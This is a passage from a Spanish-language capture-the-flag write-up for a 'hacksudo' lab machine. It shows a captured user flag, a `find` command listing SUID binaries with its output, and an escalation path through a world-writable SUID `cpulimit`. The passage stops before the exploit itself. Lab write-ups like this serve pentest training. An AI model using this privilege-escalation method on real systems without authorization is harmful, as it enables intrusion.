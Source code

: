 Metemos la contraseña y ya estariamos dentro, por lo que leeremos la flag...

> user.txt (flag1)

```
9fb4c0afce26929041427c935c6e0879
```

Con este usuario si hacemos lo siguiente...

```shell
find / -type f -perm -4000 -ls 2>/dev/null
```

Info:

```
161820     24 -rwsrwsrwx   1 root     root        23072 Apr  3  2021 /home/hacksudo/Downloads/cpulimit
     1546    108 ---Sr-xr-x   1 root     root       109408 Feb 28  2019 /usr/bin/date
    10735     24 -rwsr-xr-x   1 root     root        23288 Jan 15  2019 /usr/bin/pkexec
       56     64 -rwsr-xr-x   1 root     root        63736 Jul 27  2018 /usr/bin/passwd
       52     56 -rwsr-xr-x   1 root     root        54096 Jul 27  2018 /usr/bin/chfn
       53     44 -rwsr-xr-x   1 root     root        44528 Jul 27  2018 /usr/bin/chsh
     3910     36 -rwsr-xr-x   1 root     root        34888 Jan 10  2019 /usr/bin/umount
     3436     44 -rwsr-xr-x   1 root     root        44440 Jul 27  2018 /usr/bin/newgrp
    10841     36 -rwsr-xr-x   1 root     root        34896 Apr 22  2020 /usr/bin/fusermount
       55     84 -rwsr-xr-x   1 root     root        84016 Jul 27  2018 /usr/bin/gpasswd
     3908     52 -rwsr-xr-x   1 root     root        51280 Jan 10  2019 /usr/bin/mount
     3583     64 -rwsr-xr-x   1 root     root        63568 Jan 10  2019 /usr/bin/su
    10852    152 -rwsr-xr-x   1 root     root       154352 Mar 21  2019 /usr/bin/ntfs-3g
    17819     56 -rwsr-xr-x   1 root     root        55400 Mar  6  2019 /usr/bin/bwrap
    58037    156 -rwsr-xr-x   1 root     root       157192 Jan 20  2021 /usr/bin/sudo
   407660     16 -rwsr-sr-x   1 root     root        14608 Dec  1  2020 /usr/lib/xorg/Xorg.wrap
    13568    428 -rwsr-xr-x   1 root     root       436552 Jan 31  2020 /usr/lib/openssh/ssh-keysign
   150325     20 -rwsr-xr-x   1 root     root        18424 Sep  8  2018 /usr/lib/spice-gtk/spice-client-glib-usb-acl-helper
   135600     12 -rwsr-xr-x   1 root     root        10232 Mar 28  2017 /usr/lib/eject/dmcrypt-get-device
   138948     20 -rwsr-xr-x   1 root     root        18888 Jan 15  2019 /usr/lib/policykit-1/polkit-agent-helper-1
   138929     52 -rwsr-xr--   1 root     messagebus    51184 Jul  5  2020 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
    57715    380 -rwsr-xr--   1 root     dip          386792 Feb 20  2020 /usr/sbin/pppd
```

Vemos la siguiente linea...

```
161820     24 -rwsrwsrwx   1 root     root        23072 Apr  3  2021 /home/hacksudo/Downloads/cpulimit
```

Por lo que si hacemos lo siguiente seremos `root`...

```shell
cd /home/hacksudo/Downloads/
```
